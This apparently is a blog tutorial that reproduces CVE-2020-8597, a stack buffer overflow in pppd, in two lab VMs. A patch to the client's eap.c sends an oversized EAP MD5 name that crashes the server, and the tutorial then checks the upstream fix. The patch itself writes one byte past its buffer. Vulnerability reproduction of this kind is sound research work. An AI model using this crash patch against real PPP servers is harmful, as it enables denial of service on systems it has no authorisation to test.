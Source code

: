 # CVE-2020-8597 - Buffer Overflow in pppd

In this short tutorial we will go over how to reproduce the crash from CVE-2020-8597.  This is a stack-based buffer overflow in the `pppd` binary.

We will use our own `pppd` binary compiled from source, using the latest version: `2.4.8`.

To accomplish this goal, we will need two Virtual Machines connected by a virtual serial port.  I typically use VirtualBox since it is open source, but the same sort of configuration should work on other hypervisors.

I spun up two VMs: 

* `pppd-server`
* `pppd-client`

The serial configuration settings for `pppd-server` look like this:

![Server Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0001-server-serial-config.png "Server Serial Configuration")

The serial configuration settings for `pppd-client` look like this:

![Client Serial Configuration](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0002-client-serial-config.png "Client Serial Configuration")

After configuring the serial settings, spin up and install your choice of Linux Distribution.  I chose `Ubuntu 19.10`, but any linux distro should work.

Make sure the `pppd-server` VM is started **before** the `pppd-client` VM.

Now we need to test the connectivity of the serial connection:

![Testing Serial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0003-testing-serial-connection.png "Testing Serial Connection")

When installation of the base operating system is completed and testing is successful, we will need a few packages to work with pppd:

```bash
# apt install build-essential gdb libssl-dev
```

Then we proceed to clone the `ppp` repository:

```bash
$ git clone https://github.com/paulusmack/ppp.git ~/ppp
```

Now on the server, we build and install `ppp`:

```bash
$ git checkout ppp-2.4.8
$ cd ~/ppp
$ ./configure
$ make
# make install
```

We now have `pppd` installed for the server.  Next repeat the instructions on `pppd-client`.

At this point we hae a version of `pppd` on both systems.  We need to then test the connection.

First, on the server, run the following command:

```bash
# pppd /dev/ttyS0 9600 noauth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8
```

Next, on the client, run the following command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600
```

Now we should see the connection open up:

![Initial Connection](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0005-initial-connection.png "Initial Connection")

Next we need to implement `EAP MD5-Challenge`.  We can do so by adjusting the server command and adding a file on the server filesystem.

The file we need to add is `/etc/ppp/chap-secrets` and should look like this:

```
admin   *       password        *
```

Where:

* `admin` is the username
* The first * is the server name
* `password` is the connection password
* The second * is the IP to accept connections from

Now we adjust the server command to:

```bash
# pppd /dev/ttyS0 9600 auth local lock defaultroute debug nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap
```

The last thing we need to do is make some changes to the `pppd-client` pppd binary.  On `pppd-client`, clean up the ppp project in `~/ppp`:

```bash
$ make clean
```

Then apply the following patch:

```
diff --git a/pppd/eap.c b/pppd/eap.c
index 082e953..0754597 100644
--- a/pppd/eap.c
+++ b/pppd/eap.c
@@ -75,8 +75,7 @@
 #ifndef SHA_DIGESTSIZE
 #define        SHA_DIGESTSIZE 20
 #endif
-
-
+#define PAYLOAD_SIZE 1024
 eap_state eap_states[NUM_PPP];         /* EAP state; one for each unit */
 #ifdef USE_SRP
 static char *pn_secret = NULL;         /* Pseudonym generating secret */
@@ -1392,8 +1391,8 @@ int len;
 #endif /* USE_SRP */
                eap_send_response(esp, id, typenum, esp->es_client.ea_name,
                    esp->es_client.ea_namelen);
-               break;
 
+               break;
        case EAPT_NOTIFICATION:
                if (len > 0)
                        info("EAP: Notification \"%.*q\"", len, inp);
@@ -1457,8 +1456,12 @@ int len;
                BZERO(secret, sizeof (secret));
                MD5_Update(&mdContext, inp, vallen);
                MD5_Final(hash, &mdContext);
-               eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-                   esp->es_client.ea_namelen);
+               char payload[PAYLOAD_SIZE];
+               memset(payload, 'A', PAYLOAD_SIZE - 1);
+               payload[PAYLOAD_SIZE] = '\0';
+               eap_chap_response(esp, id, hash, payload, PAYLOAD_SIZE);
+               //eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+                //   esp->es_client.ea_namelen);
                break;
 
 #ifdef USE_SRP
```

You can apply this patch by saving it as a file like this:

```bash
$ git apply client-payload.patch
```

Where `client-payload.patch` is the file name where we saved the aforementioned patch.

I chose to use the approach of modifying he `pppd` binary to avoid having to script out the entire `LCP` handshake process that begins link negotation on `ppp`.  While it should be possible to craft your own client using `scapy` and `pyserial`, it was definitely easier to just modify the existing `pppd` binary to do what we want.

Now recompile the project:

```bash
$ ./configure
$ make
# make install
```

Now we adjust the client command to be:

```bash
# pppd auth local lock defaultroute debug nodetach /dev/ttyS0 960
```

Then we run the server command first, and the following client command:

```bash
# pppd noauth local lock defaultroute debug nodetach /dev/ttyS0 9600 user notadmin password notpassword
```

You should see a crash now on the server:

![Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0006-crash.png "Crash")

Now, we want to verify the fix, so back on the server we run:

```bash
$ make clean
$ git checkout master
$ ./configure
$ make
# make install
```

Then repeat the last server+client commands!  You should not see a crash:

![No Crash](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124/raw/8610f404b61c547d85560ccbfba73804af596cb2/0007-no-crash.png "No crash")

Sources:

* [https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426](https://github.com/paulusmack/ppp/commit/8d7970b8f3db727fe798b65f3377fe6787575426)
* [https://www.virtualbox.org/wiki/PPP_Tunnel](https://www.virtualbox.org/wiki/PPP_Tunnel)

[Back](https://nstarke.github.io/)